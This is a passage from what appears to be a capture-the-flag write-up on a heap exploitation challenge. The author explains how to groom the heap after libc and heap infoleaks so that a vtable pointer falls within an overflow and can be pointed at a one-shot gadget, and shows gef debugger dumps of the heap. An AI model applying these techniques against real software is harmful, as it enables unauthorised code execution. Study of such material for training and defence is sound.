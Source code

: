 We will place the oneshot gadget on the heap somewhere (we will know it's address due to the heap address infoleak), and overwrite the second pointer to point to the oneshot gadget. That brings up the question on how do we groom the heap in order to get that pointer in range of our overwrite. Thing is, malloc will use recently freed memory in new allocations in order to speed up it's runtime. With the libc and heap infoleaks, we would of already freed two chunks of memory, so that is probably going to be reused. To see the state of the heap is after the infoleaks, I ran the exploit (what I have of it so far), created a new user, and checked to see what the heap was like. Keep in mind that the overflow has to come from the user with the pineapple, so we're concerned with where the second pointer for the vtable function for the second user is in relation to the explanation from the first:

So we can see here the two user instances, one for the user `guyinatuxedo` (which has had the pineapple anger mario) and the second user `15935728`

```
gef➤  x/9g 0x55b7b8a90c20
0x55b7b8a90c20: 0x000055b7b8a90c70  0x000055b7b8a91540
0x55b7b8a90c30: 0x000055b7b8a916d8  0x000055b7b8a91840
0x55b7b8a90c40: 0x000055b7b8a91130  0x000055b7b8a92440
0x55b7b8a90c50: 0x000055b7b8a924c8  0x000055b7b8a92540
0x55b7b8a90c60: 0x0000000000000001
gef➤  x/9g 0x55b7b8a90d30
0x55b7b8a90d30: 0x000055b7b8a920b0  0x000055b7b8a90c90
0x55b7b8a90d40: 0x000055b7b8a90ca8  0x000055b7b8a90ca8
0x55b7b8a90d50: 0x000055b7b8a91130  0x000055b7b8a92710
0x55b7b8a90d60: 0x000055b7b8a92718  0x000055b7b8a92718
0x55b7b8a90d70: 0x0000000000000001
gef➤  x/s 0x000055b7b8a90c70
0x55b7b8a90c70: "guyinatuxedo"
gef➤  x/s 0x000055b7b8a920b0
0x55b7b8a920b0: "15935728"
```

We can see that the freed chunk located at `0x000055b7b8a91130` has been reused for the second user. When we take a look at what is within our overflow range, we don't see the vtable object:

```
gef➤  telescope 0x000055b7b8a91130 40
0x000055b7b8a91130│+0x0000: 0x00007fa157743b78  →  0x000055b7b8a92720  →  0x0000000000000000
0x000055b7b8a91138│+0x0008: 0x00007fa157743b78  →  0x000055b7b8a92720  →  0x0000000000000000
0x000055b7b8a91140│+0x0010: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a91148│+0x0018: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a91150│+0x0020: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a91158│+0x0028: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a91160│+0x0030: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a91168│+0x0038: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a91170│+0x0040: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a91178│+0x0048: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a91180│+0x0050: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a91188│+0x0058: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a91190│+0x0060: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a91198│+0x0068: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a911a0│+0x0070: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a911a8│+0x0078: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a911b0│+0x0080: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a911b8│+0x0088: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a911c0│+0x0090: "11111111111111111111111111111111111111111111111111[...]"
0x000055b7b8a911c8│+0x0098: "111111111111111111111111111111111111111111111111"
0x000055b7b8a911d0│+0x00a0: "1111111111111111111111111111111111111111"
0x000055b7b8a911d8│+0x00a8: "11111111111111111111111111111111"
0x000055b7b8a911e0│+0x00b0: "111111111111111111111111"
0x000055b7b8a911e8│+0x00b8: "1111111111111111"
0x000055b7b8a911f0│+0x00c0: "11111111"
0x000055b7b8a911f8│+0x00c8: 0x000055b7b8a91300  →  0x0000000000000000
0x000055b7b8a91200│+0x00d0: 0x00000000000000e0
0x000055b7b8a91208│+0x00d8: 0x0000000000000040 ("@"?)
0x000055b7b8a91210│+0x00e0: 0x000055b7b897cbe0  →  0x000055b7b8772ce2  →   push rbp
```